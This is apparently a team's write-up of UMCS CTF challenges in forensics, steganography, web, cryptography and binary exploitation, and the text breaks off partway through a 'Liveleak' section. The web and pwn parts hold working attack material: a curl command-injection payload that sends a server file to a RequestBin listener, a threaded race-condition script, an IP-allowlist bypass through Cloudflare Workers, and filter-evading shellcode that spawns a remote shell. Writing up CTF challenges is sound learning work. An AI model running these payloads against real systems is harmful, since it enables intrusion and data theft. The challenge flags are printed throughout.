# Forensic

## Hidden in Plain Graphic


### Executive Summary

This challenge involved analyzing network traffic **_pcap_** file to uncover a hidden PNG file. After extracting and inspecting the image, we discovered the flag hidden using steganography

### Challenge Overview

We were given a **_.pcap_** file and asked to investigate for hidden data. The goal was to locate and extract a hidden flag potentially embedded in a transmitted file.

### Tools used

1. Wireshark
2. Aperisolve

### Static Analysis

1. First, sort by length (descending) in Wireshark to spot large packets that might contain file data.
2. We found this suspiciously large data file.
   
3. Follow the TCP stream of the suspicious packets.
   
4. Within the stream, we found **_PNG_** file headers.
   
5. We exported the **_raw_** sream data file. (switching to raw is important)
   
6. Upon saving the file as **_.png_** and opening the file, we confirmed it's an image.
7. Uploading the PNG to **_Aperisolve_** to scan for embedded steganographic data.
   
8. Flag: `umcs{h1dd3n_1n_png_st3g}`
   

### Takeaways

This challenge highlights how data can be quietly hidden in seemingly ordinary traffic. Knowing what file signatures look like and using tools like Aperisolve is key to solving basic stego-over-network forensics.

# Steganography

## Broken


### Executive Summary

A suspicious **_broken.mp4_** file was suspected of containing a hidden flag. Initial attempts to play the file failed, indicating structural corruption. Through a combination of static analysis, binary inspection, and media recover techniques, the file was repaired and a hidden flag was succesfully extracted from the video frame.

### Case Details

**_Objective_**: Recover the hidden flag from a corrupted **_broken.mp4_** file provided during the forensic challenge
**_Initial Observation:_**:
• The file could not be played in any media player.
• Tools like **_ffmpeg_** and **_exiftool_** were used for deeper inspection.
• Manual binary inspection via hex editor suggested intentional tampering.

### Requirements

• Knowledge of MP4 file structure (ftyp, moov, mdat atoms).
• Familiarity with ffmpeg, exiftool, and hex editors for static analysis.
• Understanding of video encoding schemes (H.264 in this case)
• Ability to reconstruct or repair partial media file structures.

### Static Analysis

1. Hex inspection & obtain a sample.
   Key points:
   • **_ftypisom_** header, this indicate that it is ISO Base Media file MPEG-4
   
   • **_H264 encoded format_**
   
   To solve this, we thought of obtaining a sample for ease of comparison by recording with OBS since OBS allows to tweak the recording output format, so we screenrecorded under **_H264_** encoding and output as **_.mp4_** file
2. Comparative Sample Analysis
   | Original | Sample |
   | -------- | ------- |
   | | |

Notice that the file header of ftypisom type of .mp4 file header should be started with \x00\x00\x00\x02 followed by magic bytes ftypisom, hence we should fix the header by referring the sample.
\*\*The file still don’t run, further analysis required

3. Anomaly discorvery via ExifTool and ffmpeg
   
   
   Anomaly found at offset 0x38e5, moov not found
4. Repair the corruption
   
   
   Appending **_‘o’_** character into **_“moov”_**

### Flag Extraction

Opened fixed MP4 in a video editor, found a visible frame in the video displaying the flag.


Flag: `umcs{h1dd3n_1n_fr4m3}`

## Hotline Miami



### Executive Summary

This challenge required investigating three files (JPG, TXT, and WAV) to discover hidden information through steganographic techniques.

### Challenge Overview

The challenge provided three main files: rooster.jpg, readme.txt, and iamthekidyouknowwhatimean.wav. To solve it, we needed to analyze each file and connect the clues, requiring some out-of-the-box thinking. The flag format was provided in the readme.txt file.

### Tools used

• Sonic Visualiser
• Notepad
• Google

### Analysis & Flag Extraction

1. First we start the analysis by using the sonic visualiser to view the spectrogram of the (iamthekidyouknowhwhatimean.wav) file.

2. We can see clearly there is a word of _Watching 1989_ on the spectrogram view.



3. Next let see on the text file. we can see there is **_DO YOU LIKE HURTING OTHER PEOPLE?_** **_Subject_Be_Verb_Year_** and we think the Subject_Be_Verb_Year is the format for the flags.



4. Search online for the jpg we can found that there is a name for this rooster call Richard.


5. Lastly we try to search online what is Hotline Miami. It show that it is a game in Steam.



6. Going search for the games wiki, we can found that there is story of it.

7. Ctrl + f search the clue given "DO YOU LIKE HURTING OTHER PEOPLE?" and we can found that it is a dialogue from Richard.



8. And yes we double check it and we knew the subject must be Richard, verb is Watching, Year is 1989.

Flag : `umcs{richard_be_watching_1989}`

# Web

## Healthcheck



### Executive Summary

This website lets you use the curl command after filtering input with a basic blacklist. The input is passed to shell_exec, making it possible to bypass the filter and inject commands. The goal is to exploit this for code execution.

### Tools used

• BurpSuite
• RequestBin

### Source Code Analysis

Based on the source code, the interesting part is on top:

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST["url"])) {
    $url = $_POST["url"];

    $blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

    $sanitized_url = str_replace($blacklist, '', $url);

    $command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";

    $output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
}
?>
```

We found out that $blacklist, this need to be avoided.

```
$blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];
```

### Exploitation

1. First, we noticed that our **_user input_** is passed into the curl command after being sanitized using a basic blacklist.
   Nice! That means we can try **_command injection_** here.

2. Since they're using **_curl_**, we can log HTTP requests by pointing the command to a custom endpoint. For that, we use a **_RequestBin_** to track the website’s outgoing requests.

3. We’re also given a hint: the keyword **_hopes_and_dreams_**
   – sounds like something important will be sent to our listener

4. So, we set up a listener and craft a payload to trigger the request.

Note: here we use [RequestBin](https://requestbin.kanbanbox.com/) for this, but webhook.site can also be used, or any custom HTTP logger are applicable.



### Final Payload

```bash
https://requestbin.kanbanbox.com/XXXXXX -o /dev/null -X POST --data-binary @hopes_and_dreams
```

https://requestbin.kanbanbox.com/XXXXXX  
• This is the **_destination URL_**: RequestBin listener that logs incoming HTTP requests.

-o /dev/null
• Tells **_curl_** to **_discard the response body_**. We don't care what the server sends back.

-X POST
• Forces the method to **_POST_**, which is important for sending data.

**_--data-binary @hopes_and_dreams_**
• This uploads a local file named **_hopes_and_dreams_** from the server.  
• The @ tells curl to read the **_contents of the file_** and send it as the request body.

### Flag Extraction

After we've done submitting the **_$payload_**, we can just get our flag on the **_RequestBin_**.


Flag: `umcs{n1c3_j0b_ste411ng_myh0p3_4nd_dr3ams}`

## Straightforward




### Executive Summary

This challenge presents an online reward system where users can collect daily bonuses to earn points and purchase a flag. But it contains a race **_condition vulnerability_** in the bonus claim mechanism that allows users to claim multiple bonuses simultaneously, bypassing the intended limitation of one bonus per user. By exploiting this vulnerability, we were able to accumulate sufficient balance to purchase the flag.

### Tools used

• Python

### Static Analysis

Based on the source code, there are some interesting parts:

1. Database Schema:
   • **_users table_**: Stores username and balance
   • **_redemptions table_**: Tracks which users have claimed their daily bonus

2. Critical Vulnerability: The /claim endpoint contains a race condition:

```php
# Check if already claimed
   cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
   row = cur.fetchone()
   if row and row['claimed']:
       flash("You have already claimed your daily bonus!", "danger")
       return redirect(url_for('dashboard'))

   # Update database - these operations are not atomic
   db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
   db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
   db.commit()

```

The critical issue is that the check and update operations are not performed atomically. There's a time window between checking if a user has claimed the bonus and marking it as claimed, allowing multiple simultaneous requests to pass the check before any single request updates the database.

3. Flag Access: The **_/buy_flag_** endpoint verifies a user's balance before providing the flag:

```php
if row and row['balance'] >= 3000:
    db.execute('UPDATE users SET balance = balance - 3000 WHERE username=?', (username,))
    db.commit()
    flash("Reward redeemed!", "success")
    return render_template('flag.html')

```

### Final Payload

We developed a Python script to exploit the race condition vulnerability:

```php
import requests
import threading
import re
import time

url = "http://159.69.219.192:7859/"

username = f"test{int(time.time())}"
session = requests.Session()
register_resp = session.post(f"{url}/register", data={"username": username})
print(f"Registered as: {username}")

def claim_bonus():
    try:
        resp = session.post(f"{url}/claim")
        if "Daily bonus collected" in resp.text:
            print("Successfully claimed bonus!")
        elif "already claimed" in resp.text:
            print("Claim blocked - already claimed")
    except Exception as e:
        print(f"Error: {str(e)}")

threads = []
num_threads = 30

print(f"Launching {num_threads} simultaneous claim attempts...")
for i in range(num_threads):
    t = threading.Thread(target=claim_bonus)
    threads.append(t)

for t in threads:
    t.start()

for t in threads:
    t.join()

dashboard_resp = session.get(f"{url}/dashboard")
balance_match = re.search(r'Your current balance: <strong>\$(\d+)</strong>', dashboard_resp.text)

if balance_match:
    balance = int(balance_match.group(1))
    print(f"Current balance: ${balance}")

    if balance >= 3000:
        print("Balance sufficient! Buying flag...")
        flag_resp = session.post(f"{url}/buy_flag")

        if "UMCS{" in flag_resp.text:
            flag_match = re.search(r'UMCS\{[^}]+\}', flag_resp.text)
            if flag_match:
                print(f"FLAG FOUND: {flag_match.group(0)}")
            else:
                print("Flag format not detected, but here's response:")
                # Print part of the response to see the flag
                print(flag_resp.text[:500] + "...")
        else:
            print("Could not find flag in response")
    else:
        print(f"Need ${3000 - balance} more to buy the flag")
else:
    print("Could not determine balance")

```

The race condition works because:
• The server first checks if a user has already claimed the bonus
• Then separately updates the database to mark it as claimed
• When multiple requests hit simultaneously, several can pass the initial check before any mark the bonus as claimed
• Each successful request increases the user's balance by $1000

### Flag Extraction



Flag: `UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}`

## Microservices



### Executive Summary

This challenge required investigating on the source file and find the vulnerable code to access the flag files using the correct IP address.

### Challenge Overview

This challenge need to have knowledge of how does the api works and how to overrides the ban ip to get in to the 5555 port and retrieve the flag

### Tools used

• Cloudflare Workers
• Visual Studio Code

### Analysis

1. First we start the analysis by the source code given by the challenges



2. Then we have a check on how should we overrides the code as we can see there is a things we should bypass to get into the 5555 port and open the flag files.

3.

```nginx
server {
        listen 80;

        location / {
            # Private IPs
            allow 127.0.0.1;
            allow ::1;
            allow 172.18.0.0/16;
            allow 10.0.0.0/8;
            allow 172.16.0.0/12;
            allow 192.168.0.0/16;

            # Cloudflare IPs
            allow 103.21.244.0/22;
            allow 103.22.200.0/22;
            allow 103.31.4.0/22;
            allow 104.16.0.0/13;
            allow 104.24.0.0/14;
            allow 108.162.192.0/18;
            allow 131.0.72.0/22;
            allow 141.101.64.0/18;
            allow 162.158.0.0/15;
            allow 172.64.0.0/13;
            allow 173.245.48.0/20;
            allow 188.114.96.0/20;
            allow 190.93.240.0/20;
            allow 197.234.240.0/22;
            allow 198.41.128.0/17;

            deny all;

            proxy_pass http://localhost:5555;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_http_version 1.1;
        }
```

4. We can see in this code in the default.conf file, only private or cloudflare IP is available to allow access into the api server.

5. Cloudflare workers done the work for this case to change the ip address to GET the file from the server as it allow the access of cloudflare IP.

6. Then we write a script to run on the cloudflare workers playground to fetch the text from the server.sttsst

```python
export default {
  async fetch(request, env, ctx) {
    const response = await fetch("http://microservices-challenge.eqctf.com:5555/flag", {
      method: "GET",
      headers: {
        "Accept": "application/json",
      },
    });

    const data = await response.text();
    return new Response(data, {
      headers: { "Content-Type": "text/plain" },
    });
  },
};

```

7. Run the script and we can get the flag directly from the server.

8. Cloudflare Workers



### Takeaways

• IP Whitelisting Alone is Not Secure – Additional protections are needed.  
• Cloudflare Workers Can Bypass IP Bans – Useful for testing and authorized penetration testing.

### CREDITS

Thank you **_benkyou@USM_Biawaks_** for providing hint of the chall **_after the end_** of UMCS CTF Preliminary Round.

# Cryptography

## Gist of Samuel



### Executive Summary

This challenge involved decoding a hidden message using a combination of Morse code and the Rail Fence cipher. The solution required analyzing an emoji-encoded file, translating it to Morse, and applying a Rail Fence Cipher to reveal the final flag.

### Challenge Overview

The challenge provided:

1. gist_of_samuel.txt – A file filled with unusual Unicode symbols (🚂, 🚆, 🚋).
2. Samuel is one of the author that write the morse code.
3. GitHub Gist – Containing ASCII art that held the final flag.

### Tools used

• Python (for Morse code translation)  
• Rail Fence cipher decoder (online tool)
• Courier New font (to properly render ASCII art)

### Analysis

1. Decoding the Unicode File

The file contained strange symbols (`🚂`, `🚆`, `🚋`), suggesting misinterpreted binary data or a custom encoding.
Upon closer inspection, these symbols resembled Morse code when mapped to:

• `🚂` → Dot (.)  
• `🚋` → Dash (–)  
• `🚆` → Separator ( )

Python Script for Morse Decoding:

```python
morse_dict = {
    '.-': 'A', '-...': 'B', '-.-.': 'C', '-..': 'D', '.': 'E',
    '..-.': 'F', '--.': 'G', '....': 'H', '..': 'I', '.---': 'J',
    '-.-': 'K', '.-..': 'L', '--': 'M', '-.': 'N', '---': 'O',
    '.--.': 'P', '--.-': 'Q', '.-.': 'R', '...': 'S', '-': 'T',
    '..-': 'U', '...-': 'V', '.--': 'W', '-..-': 'X', '-.--': 'Y',
    '--..': 'Z', '.----': '1', '..---': '2', '...--': '3', '....-': '4',
    '.....': '5', '-....': '6', '--...': '7', '---..': '8', '----.': '9',
    '-----': '0', '.-.-.-': '.', '--..--': ',', '..--..': '?',
    '.----.': "'", '-..-.': '/', '-.--.': '(', '-.--.-': ')',
    '.-...': '&', '---...': ':', '-.-.-.': ';', '-...-': '=',
    '.-.-.': '+', '-....-': '-', '..--.-': '_', '.-..-.': '"',
    '...-..-': '$', '.--.-.': '@'
}

file_path = 'gist_of_samuel.txt'

with open(file_path, 'r', encoding='utf-8') as f:
    content = f.read().strip()

morse_text = content.replace('🚂', '.').replace('🚋', '-').replace('🚆', ' ')

morse_chars = morse_text.split(' ')

result = ''
for char in morse_chars:
    if char in morse_dict:
        result += morse_dict[char]
    elif char == '':
        continue
    else:
        result += f"[{char}]"

print("DONE:")
print(result)

```

Output:

```
DONE:
HERE[.......]IS[.......]YOUR[.......]PRIZE[.......]E012D0A1FFFAC42D6AAE00C54078AD3E[.......]SAMUEL[.......]REALLY[.......]LIKES[.......]TRAIN,[.......]AND[.......]HIS[.......]FAVORITE[.......]NUMBER[.......]IS[.......]8
```

2. Identifying the Cipher
   The decoded message included:  
   • "**_SAMUEL REALLY LIKES TRAIN_**" → Hinting at Rail Fence cipher (rail = train tracks). (Look also at the question given of the challenge 'gatekeeping')
   • "**_FAVORITE NUMBER IS 8_**" → Should be the key for the cipher.
   • "**_E012D0A1FFFAC42D6AAE00C54078AD3E_**" → A hexadecimal string identifying the GitHub Gist.

3. Retrieving the GitHub Gist
   • Using the hex string from the decoded message, we accessed the GitHub Gist at:
   https://gist.github.com/umcybersec/e012d0a1fffac42d6aae00c54078ad3e
   

• The Gist contained what appeared to be ASCII art, but it was encoded with the Rail Fence cipher.

4. Applying the Rail Fence Cipher

• The Rail Fence cipher is a transposition cipher that arranges text in a zigzag pattern across a specified number of "rails."
• Using the hint that Samuel's favorite number is 8, we applied the Rail Fence decoder with **_8 rails_** and Offset = 0.

Decoding Process:

1. Copy the content from the Github Gist
2. Use an online Rail Fence decoder.
3. Set the number of rails to 8.
4. Apply the decryption algorithm.

   

### Flag Extraction

• After Rail Fence decryption, the result was properly formatted ASCII art.
• When viewed with a monospaced font like Courier New, the ASCII art clearly displayed the flag.
• Used Notepad to watch the flag in ASCII art view.



Flag: `umcs{willow_tree_campsite}`

### Takeaways

• **Multi-Layer Encoding** – Data was hidden behind Morse code and a Rail Fence cipher.  
• **Contextual Clues** – "Trains" and "8" were critical to solving the Rail Fence step.  
• **Tool Flexibility** – Switching between Python scripting, and cipher tools was essential.

# PWN

## Babysc


### Challenge Overview

The "babysc" challenge is a binary exploitation task focused on shellcode injection with specific restrictions. The program allocates executable memory, reads in user input, and executes it as code, but with strict filters on certain byte sequences.

### Vulnerability Analysis

Looking at the source code (`babysc.c`) void function, we can identify the key components:

```python
void vuln(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);

    puts("Enter 0x1000");
    shellcode_size = read(0, shellcode, 0x1000);
    for (int i = 0; i < shellcode_size; i++)
    {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
        {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }
   puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
}

```

The program:

1. Allocates 0x1000 bytes of executable memory at address 0x26e45000
2. Reads user input into this memory
3. Scans for specific byte patterns:
   • **0x80cd**: int **0x80** instruction (32-bit syscall)
   • **0x340f** and **0x050f**: Parts of the syscall instruction (64-bit syscall)
4. If no forbidden patterns are found, executes the provided shellcode

Running **checksec** on the binary, and we found that:



NX is not disabled – shellcode injection approach should be correct

Thus, the challenge is clear: **input shellcode** that can spawn a shell without using standard syscall instructions.

### Solution approach

The real challenge here is that standard shellcode can't be used because it would contain either int 0x80 or syscall instructions, which trigger the filter. Our goal is to bypass this restriction and still spawn a shell.

**Classic Technique: Self-modifying shellcode**

Because the program only checks for forbidden bytes before execution — not during runtime — it's possible to write a shellcode that:
• Writes the forbidden instruction (syscall) into memory dynamically.
• Executes it after the check has already passed.

Assembly Walkthrough

1. Prepare **/bin/sh** for **execve**():
   The code sets up the string /bin/sh on the stack and prepares the necessary arguments for the execve syscall.

2. Setup **syscall** manually:
   Instead of writing the 0x0f05 instruction directly (which would be blocked), the shellcode writes **safe placeholder bytes** and modifies them at runtime:

```
mov byte ptr [rbx], 0x0e      ; Write 0x0e
inc byte ptr [rbx]           ; Now it becomes 0x0f
mov byte ptr [rbx+1], 0x04   ; Write 0x04
inc byte ptr [rbx+1]         ; Now it becomes 0x05
call rbx                     ; Jump to the constructed syscall
```

This dynamic construction bypasses the static filter.

**Assembly Source Code**

```
start:
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f6e69622f  ; "/bin/sh" in ASCII
    push rdi
    mov rdi, rsp

    push 59                   ; Syscall number for execve()
    pop rax

    xor rdx, rdx              ; Null pointer for envp
    push rdx
    push rdi
    mov rsi, rsp              ; argv pointer setup

    push rsp
    pop rbx
    sub rbx, 0x10             ; Choose a safe writable location

    mov byte ptr [rbx], 0x0e  ; Partial 'syscall' instruction
    inc byte ptr [rbx]        ; Make it 0x0f
    mov byte ptr [rbx+1], 0x04
    inc byte ptr [rbx+1]      ; Make it 0x05

    call rbx                  ; Execute the patched syscall
```

**Generating Shellcode**

Using pwntools:

```
from pwn import *

context.arch = 'amd64'

asm_code = """
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp

    push 59
    pop rax

    xor rdx, rdx
    push rdx
    push rdi
    mov rsi, rsp

    push rsp
    pop rbx
    sub rbx, 0x10

    mov byte ptr [rbx], 0x0e
    inc byte ptr [rbx]
    mov byte ptr [rbx+1], 0x04
    inc byte ptr [rbx+1]

    call rbx
"""

shellcode = asm(asm_code)

def hex_format(sc):
    return ''.join('\\x{:02x}'.format(c) for c in sc)

print(hex_format(shellcode))

```

Output:
`\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x48\x89\xe7\x6a\x3b\x58\x48\x31\xd2\x52\x57\x48\x89\xe6\x54\x5b\x48\x83\xeb\x10\xc6\x03\x0e\xfe\x03\xc6\x43\x01\x04\xfe\x43\x01\xff\xd3`

### Flag Extraction

Using pwntools, we need to inject the shellcode to the remote server, spawn a shell and search for flag

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

shellcode = b"\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x48\x89\xe7\x6a\x3b\x58\x48\x31\xd2\x52\x57\x48\x89\xe6\x54\x5b\x48\x83\xeb\x10\xc6\x03\x0e\xfe\x03\xc6\x43\x01\x04\xfe\x43\x01\xff\xd3"

def exploit():
    p = remote("34.133.69.112", 10001)
    p.recvuntil(b"Enter 0x1000")
    p.send(shellcode)
    p.interactive()

if __name__ == "__main__":
exploit()
```



The shellcode successfully bypassed the static instruction filter, triggered execve("/bin/sh"), and opened a remote shell. From there, as we search through directories, the flag was retrieved:

Flag: `umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}`

### Takeaways

• **Static Filters ≠ Runtime Security**
Static byte filtering can be bypassed with runtime-generated instructions like self-modifying code.

• **Self-Modifying Code is Powerful**
Writing code that changes itself at runtime is a classic exploitation trick, especially when static analysis is the only check.

• **Deep Understanding of Instruction Encoding**
Knowing how assembly translates into machine bytes is crucial for developing filtered or stealthy shellcode.

## Liveleak



### Challenge Overview

The **Liveleak** challenge is a classic binary exploitation task centered around memory leakage. The goal is to exploit a buffer overflow vulnerability to leak a libc address, calculate offsets, and spawn a shell to retrieve the flag.

Goals:

1. **Exploit a buffer overflow** to control program execution.
2. **Leak a memory address** to bypass ASLR (Address Space Layout Randomization).
3. **Calculate the libc base** address and locate system() and “/bin/sh”.
4. **Spawn a shell** and read the flag

### Vulnerability Analysis

Running **checksec** on the binary showed:



No canary and no PIE — perfect for a straightforward return address overwrite.
Since NX enabled, ROP (Return-Oriented Programming) was necessary.

### Protection Mechanisms

| Protection     | Meaning                                  | Impact                                                                       |
| -------------- | ---------------------------------------- | ---------------------------------------------------------------------------- |
| **No Canary**  | Stack overflows are possible             | You can overwrite the return address.                                        |
